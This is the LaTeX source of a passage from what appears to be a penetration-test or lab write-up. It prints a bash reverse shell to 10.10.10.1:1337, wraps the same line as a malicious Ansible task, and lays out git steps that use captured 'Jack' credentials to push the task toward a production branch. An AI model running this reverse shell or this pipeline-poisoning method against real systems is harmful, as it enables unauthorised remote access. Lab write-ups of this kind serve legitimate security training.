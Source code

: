 \documentclass{article}
\begin{document}
\clearpage

\begin{figure}
    \begin{verbatim}
#!/usr/bin/env /bin/bash

bash -c 'exec bash -i &>/dev/tcp/10.10.10.1/1337 <&1'
    \end{verbatim}
    \caption{Bash reverse shell that sends to 10.10.10.1:1337}
    \label{fig:rev-shell-script}
\end{figure}

\begin{figure}
    \begin{verbatim}
[YAML]
- name: Reverse shell
  shell: |
      bash -c 'exec bash -i &>/dev/tcp/10.10.10.1/1337 <&1'
  args:
      executable: /bin/bash
    \end{verbatim}
    \caption{Our malicious reverse shell task}
    \label{fig:malicious-task}
\end{figure}

\subsubsection{Delivery and Exploitation}

With our malicious Ansible task written we now have to figure out how to get this task to the production branch. We have gotten some hints that the \textbf{Jack} user, which we have credentials to, is one of the keys for doing this, as that user has the right to approve Pull Requests to the production branch. So the plan should be as follows:
\begin{enumerate}
    \item Get our malicious Ansible task in the repository
    \item Request a merge of the change to the production branch \cite{giteaPR}
    \item Approve the request using \textbf{jacklinds} credentials
    \item Merge the change to the production branch
\end{enumerate}

For step one it is quite simple as we have credentials that are allowed to write to the repository. We simply do the following in the terminal

\begin{verbatim}
    $ git clone http://10[.]10[.]10[.]2:3000/corp/infra-pipeline.git
    $ cd infra-pipeline        # Enter the repository
    $ git checkout production  # Move to the production branch
    $ git checkout -b attack   # Creating a new branch based on the content of prod
        # [Insert malicous task]
    $ git add -A
    $ git commit -m "Attack"
        # Using any of the credentials
    $ git push --set-upstream origin attack
\end{verbatim}
\end{document}
